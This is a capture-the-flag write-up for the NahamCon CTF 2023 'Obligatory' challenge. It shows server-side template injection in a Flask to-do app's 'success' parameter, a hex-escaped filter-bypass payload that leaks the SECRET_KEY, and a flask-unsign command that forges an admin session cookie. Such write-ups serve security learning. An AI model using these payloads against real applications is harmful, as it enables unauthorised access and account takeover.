 ```yaml
---
title: Obliagtory - NahamconCTF 2023
date: 2023-06-18
categories: [CTF Writeups]
tags: [CTF, NahamconCTF 2023, SSTI, Filter Bypass]
---
```


NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by the filter

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/config-waf.png)

Bypassed with{% raw % } `{{self|attr("\x5f\x5fdict\x5f\x5f")}}` {% endraw % }

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

**Flag obtained after using the newly signed auth-token**

![](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/raw/main/Obligatory/flag.png)
